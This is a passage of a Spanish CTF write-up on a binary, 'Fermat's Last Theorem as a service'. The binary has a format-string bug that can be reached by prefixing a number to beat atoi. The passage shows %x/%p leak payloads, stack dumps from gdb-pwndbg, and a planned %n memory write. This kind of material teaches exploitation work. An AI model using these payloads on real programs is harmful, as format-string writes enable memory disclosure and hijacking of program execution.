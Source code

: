 Vemos que el programa es una implementación del *último teorema de Fermat*. Éste dice que no existen tres números que cumplan `x^n + y^n = z^n` para *n* mayor que 2. Por tanto, es imposible que se cumpla la última condición.

El título nos da una pista de que quizás somos capaces de ejecutar un [[format string]]. Si probamos con `%x` no veremos nada porque se ejecuta un *atoi* a nuestro input. Sin embargo, por como funciona dicha función, podemos saltarnos esta restricción colocando un número seguido de nuestro payload: `1 %x`.

# Explotación

La idea será modificar datos de la memoria, pero debemos tener en cuenta que nuestro input se pasa también por una función *snprintf*, por lo que nuestro payload se cortará al enviar *nullbytes*. La estrategia será utilizar el modificador `%n`, colocando los especificadores de formato en *A* y las direcciones en *B*.

## Controlando A y B

Para ello debemos encontrar el offset. Para ello, correremos el programa en [[gdb]]-[[pwndbg]] y leakearemos algunos valores del stack:

```chall
Welcome to Fermat\'s Last Theorem as a service
A: 1_%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
B: 1_ABCDEFG
Calculating for A: 1_0x400bd7.(nil).0x1.(nil).0x73.0x7ffff7fcb878.0x7ffff7fe17e0.0x7ffff7ceaabc.0x100000001.0x2e70252e70255f31.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x2e70252e70252e.0x187dcd16eb98.0x7ffff7fe8bf5.(nil).0xffff00001f80.(nil).0x7fffffffe200.0x7ffff7ffe101.0x7ffff7ce2740.0x7ffff7ffe8d8.0x7ffff7ffdad0. and B: 1_ABCDEFG
```

```gdb-pwndbg
stack 100
00:0000│ rsp 0x7fffffffda80 —▸ 0x7ffff7fcb878 ◂— 0xc00120000000e
01:0008│-328 0x7fffffffda88 ◂— 0x4000000000000000
02:0010│-320 0x7fffffffda90 ◂— 0x64ffffffff
03:0018│-318 0x7fffffffda98 ◂— 0x100000001
04:0020│-310 0x7fffffffdaa0 ◂— '1_%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
05:0028│-308 0x7fffffffdaa8 ◂— '%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
06:0030│-300 0x7fffffffdab0 ◂— '.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
07:0038│-2f8 0x7fffffffdab8 ◂— 'p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
08:0040│-2f0 0x7fffffffdac0 ◂— '%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
09:0048│-2e8 0x7fffffffdac8 ◂— '.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
0a:0050│-2e0 0x7fffffffdad0 ◂— 'p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
0b:0058│-2d8 0x7fffffffdad8 ◂— '%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
0c:0060│-2d0 0x7fffffffdae0 ◂— '.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.'
0d:0068│-2c8 0x7fffffffdae8 ◂— 'p.%p.%p.%p.%p.%p.%p.%p.'
0e:0070│-2c0 0x7fffffffdaf0 ◂— '%p.%p.%p.%p.%p.'
0f:0078│-2b8 0x7fffffffdaf8 ◂— 0x2e70252e70252e /* '.%p.%p.' */
10:0080│-2b0 0x7fffffffdb00 ◂— 0x187dcd16eb98
11:0088│-2a8 0x7fffffffdb08 —▸ 0x7ffff7fe8bf5 (dl_main+7893) ◂— lea rsp, [rbp - 0x28]
12:0090│-2a0 0x7fffffffdb10 ◂— 0x0
13:0098│-298 0x7fffffffdb18 ◂— 0xffff00001f80
14:00a0│-290 0x7fffffffdb20 ◂— 0x0
15:00a8│-288 0x7fffffffdb28 —▸ 0x7fffffffe200 ◂— 0x2f656d6f682f0000
16:00b0│-280 0x7fffffffdb30 —▸ 0x7ffff7ffe101 (_rtld_global+4321) ◂— 0x0
17:00b8│-278 0x7fffffffdb38 —▸ 0x7ffff7ce2740 ◂— 0x7ffff7ce2740
18:00c0│-270 0x7fffffffdb40 —▸ 0x7ffff7ffe8d8 —▸ 0x7ffff7fc3160 —▸ 0x7ffff7ec6000 ◂— 0x3010102464c457f
```